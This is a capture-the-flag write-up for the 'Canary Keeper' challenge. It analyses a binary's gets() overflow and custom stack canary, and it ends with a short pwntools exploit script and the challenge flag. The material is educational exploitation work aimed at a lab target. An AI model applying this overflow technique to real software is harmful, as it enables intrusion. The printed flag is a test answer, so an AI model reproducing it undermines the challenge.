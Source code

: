 # Canary Keeper - 100 points
## Description
My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

---
We are given a executable named `provided`.

The name of the challenge is hinting for the canary, a common defense in executables,
so let's check the executable defenses:

```shell
pwn checksec provided
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It doesn't seem to be built with a canary onto the stack, maybe they implemented
a custom one.

Opening up gdb and looking for functions:
![gdb-functions](gdb-functions.png "executable functions inside gdb")

Disassemnblying main:
![gdb-main](disassembly-main.png "disassemblying main function")

Interesting values that are put onto the stack.
Breakpointing at *main+96 and looking at the stack, we get this:
![gdb-stack](gdb-stack.png "stack after the words are loaded")

So we have a hint of what the program is doing. It loads the word canary into
the stack, and then places the word FLAG.
Our input is being read with a `gets` function which is overflow vulnerable, so
we need to discover the offset which we need to add to hit our "canary", manipulate
it, and then find how to get our flag.
So let's look into the check_canary function.

![gdb-check-canary](disassembly-check-canary.png "disassembly of the check canary function")

And then, the check flag,
![gdb-check-flag](disassembly-check-flag.png "disassembly of the check flag function")


Both functions return 1 if the values compared are equal, because of the `sete`
instruction, as seen here.

![return-values](return-value.png "return values of the check functions")

`sete` sets its argument to `1` if the ZF(zero flag)
is set, and `0` otherwise. And `test eax,eax` sets the ZF if the operands are 
equal.

Now looking at the main function again, and trying to draw the exec flow,

![main execution flow](main-function-return-analysis.png "main function execution flow")


*Take a deep breath.*

In summary: 
- checks for the canary, if `canary == canary`, proceeds to `check_flag`,
if not, exit.
- checks for the flag, if `flag != flag`, proceeds to print the flag,
if not, exit.

So we need to, overflow, keep the canary, change the flag, profit.
Finding the offset.

![finding-the-offset](offset.png "finding the offset needed to overflow")

So 72 * `A`s, and the 73th overflows, so the 73th is the `0x00`, string ending 
character.

exploit code:
```python
#!/usr/bin/env python
from pwn import *
import sys

p = ELF("./provided")

io = p.process()

if "remote" in sys.argv:
    io = remote('challs.bcactf.com', 32101)

payload = b"A"*72
payload += b"\x00"
payload += b"canary"
payload += b"\x00"
payload += b"h4ck3d"
payload += b"\x00"

io.recvuntil(b'Enter a string:')
io.sendline(payload)
print(io.recvline())
```

![flag](flag.png "execution of exploit code, and flag")

`bcactf{s1mple_CANaRY_9b36bd9f3fd2f}`
